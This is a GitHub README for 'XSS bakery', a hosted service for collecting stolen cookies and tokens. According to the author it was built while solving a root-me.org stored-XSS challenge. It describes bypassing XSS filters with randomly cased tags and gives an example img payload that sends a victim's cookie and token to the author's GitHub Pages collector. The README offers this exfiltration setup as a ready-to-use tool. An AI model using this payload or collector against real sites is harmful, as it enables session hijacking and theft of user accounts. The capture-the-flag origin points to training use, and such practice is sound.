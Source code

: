# XSS bakery

<p>
  <img src="https://github.com/jasiukiewicztymon/xss-bakery/assets/73474137/0ecdbd9f-1ea5-41c8-981e-343c5cfffe43" align=left width=400>
  <b>XSS bakery</b> is a github pages services to create a session and create your cookie fetch in some clicks..
  <h2>Why use this?</h2>
  I had the idea to create this repository while solving the stored XSS on www.root-me.org. While the html is preprocessed in raw mode we can inject 
  <i>js</i> inside the input. The XSS security can be by passed with randomly cased written tags, and src attribute with pointing to this website and 
  as URL variable <b>c</b>, the cookie and <b>t</b>, the token. 

  ***Example:*** 
  
  ```html
  <ImG src="https://jasiukiewicztymon.github.com/xss-bakery/index.html?c=<COOKIE>&t=<TOKEN>">
  ```
</p>

